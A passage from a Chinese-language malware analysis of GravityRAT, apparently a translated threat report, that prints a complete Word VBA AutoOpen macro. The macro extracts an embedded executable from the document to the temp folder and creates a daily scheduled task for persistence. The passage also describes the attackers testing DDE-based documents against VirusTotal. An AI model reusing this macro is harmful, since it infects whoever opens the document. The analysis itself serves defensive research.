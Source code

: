 ```
Sub AutoOpen()
  If Not Dir(Environ("TEMP") + "image4.exe") &lt;&gt; "" Then
    Const lCancelled_c As Long = 0
      Dim sSaveAsPath As String
      sSaveAsPath = CreateObject("WScript.Shell").ExpandEnvironmentStrings("%Temp%") + "temporary.zip"
      If VBA.LenB(sSaveAsPath) = lCancelled_c Then Exit Sub
      ActiveDocument.Save
      Application.Documents.Add ActiveDocument.FullName
      ActiveDocument.SaveAs sSaveAsPath
      ActiveDocument.Close
      Set app = CreateObject("Shell.Application")
      ExtractTo = CreateObject("WScript.Shell").ExpandEnvironmentStrings("%Temp%")
      ExtractByExtension app.NameSpace(Environ("TEMP") + "temporary.zip"), "exe", ExtractTo
  End If
End Sub

Sub ExtractByExtension(fldr, ext, dst)
  Set FSO = CreateObject("Scripting.FileSystemObject")
  Set app = CreateObject("Shell.Application")
  For Each f In fldr.Items
    If f.Type = "File folder" Then
      ExtractByExtension f.GetFolder, ext, dst
    ElseIf LCase(FSO.GetExtensionName(f.Name)) = LCase(ext) Then
      If Not Dir(Environ("TEMP") + "image4.exe") &lt;&gt; "" Then
        app.NameSpace(dst).CopyHere f.Path, &amp;H4
      End If
    End If
  Next
  Shell "schtasks /create /tn wordtest /tr ""'%temp%image4.exe' 35"" /sc DAILY /f /RI 10 /du 24:00 /st 00:01"
End Sub
```

这个宏包含3个函数：

1、当文档打开时会执行第1个函数。该函数的功能是将当前活动的文档（即已打开的Word文档）拷贝到临时目录中，然后将其重命名为ZIP压缩文档。docx格式实际上就是常见的ZIP压缩格式，可以使用常用工具进行解压。

2、第2个函数可以解压`temporary.zip`文件，提取其中存储的`.exe`文件。

3、第3个函数创建名为“wordtest”的计划任务，每天执行这个恶意文件。

利用这种方法，攻击者可以确保不存在直接执行（执行恶意文件的任务交给计划任务来处理）、没有下载额外载荷，并且攻击者利用docx格式为压缩格式这一点，将可执行文件（即GravityRAT）成功包装起来。



### <a class="reference-link" name="%E6%96%87%E6%A1%A3%E6%B5%8B%E8%AF%95%E6%93%8D%E4%BD%9C"></a>文档测试操作

在跟踪过程中，我们发现攻击者出于测试目的，往VirusTotal上提交了多个恶意文档。攻击者测试了恶意宏的检测率（宏经过修改，或者将执行恶意载荷替换成运行calc），开发者尝试了利用Office文档的DDE（dynamic data exchange）来执行命令。这是对Microsoft Office文档中存在的DDE协议的一种滥用方法，虽然微软提供了这一功能，但攻击者也可以利用这个功能从事恶意活动。微软前一段时间已经公布了相应的[缓解措施](https://docs.microsoft.com/en-us/security-updates/securityadvisories/2017/4053440)。开发者构造了Office Word以及Excel文档，以探测这些文档在VirusTotal上的检测率。攻击者尝试将DDE对象隐藏在文档的不同部位：比如在主对象或者在头部中。在提交检测的样本中，DDE对象只是简单地运行微软的计算器程序。样本如下所示：
